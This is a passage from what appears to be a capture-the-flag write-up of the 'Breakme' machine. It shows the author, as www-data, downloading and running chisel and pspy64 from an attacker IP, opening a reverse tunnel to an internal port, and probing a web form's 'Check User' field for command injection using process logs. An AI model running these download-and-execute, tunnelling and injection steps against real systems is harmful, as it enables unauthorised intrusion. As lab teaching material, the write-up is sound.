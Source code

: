 ```console
www-data@Breakme:/tmp$ curl -s http://10.11.72.22/chisel -o chisel
www-data@Breakme:/tmp$ chmod +x chisel
www-data@Breakme:/tmp$ ./chisel client 10.11.72.22:7777 R:9999:127.0.0.1:9999 &
```

### Command Injection

Now, visiting `http://127.0.0.1:9999/`, we see three input fields.

![Web 9999 Index](web_9999_index.webp){: width="1200" height="600" }

Looking at the application, it seems to execute commands with user input. We can run `pspy64` on the machine to gain a better understanding of what the application does.

```console
www-data@Breakme:/tmp$ curl -s http://10.11.72.22/pspy64 -o pspy64
www-data@Breakme:/tmp$ chmod +x pspy64
www-data@Breakme:/tmp$ ./pspy64
```

Testing the `Check Target` section, if we enter a valid IP address, we can see that it runs the `ping` command with it.

```console
2024/09/20 21:14:12 CMD: UID=1002  PID=1291   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:14:12 CMD: UID=1002  PID=1292   | sh -c ping -c 2 127.0.0.1 >/dev/null 2>&1 &
```

However, if we try anything other than a valid IP address, we receive the `Invalid IP address` error.

Checking the `Check File` option, if we enter a filename without any special characters, we can see that it runs the `find` command with it.

```console
2024/09/20 21:14:54 CMD: UID=1002  PID=1296   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:14:54 CMD: UID=1002  PID=1297   | sh -c find /opt -name "test" 2>/dev/null
```

If we include any special characters to attempt command injection, we simply receive the `Invalid Filename` error.

Now, moving on to the `Check User` option, if we enter a username without any special characters, we get the `User <username> not found` error, and we can see that it runs the `id` command with it.

```console
2024/09/20 21:16:42 CMD: UID=1002  PID=1300   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:16:42 CMD: UID=1002  PID=1301   | sh -c id test >/dev/null 2>&1 &
```

But interestingly, if we try an input like `test;`, instead of receiving an error similar to `Invalid username` like the other two options, we get the message `User test not found`, with the special character being replaced. We can also see that the command is executed with our input after the replacement.

```console
2024/09/20 21:18:14 CMD: UID=1002  PID=1309   | /usr/bin/php -S 127.0.0.1:9999
2024/09/20 21:18:14 CMD: UID=1002  PID=1310   | sh -c id test >/dev/null 2>&1 &
```

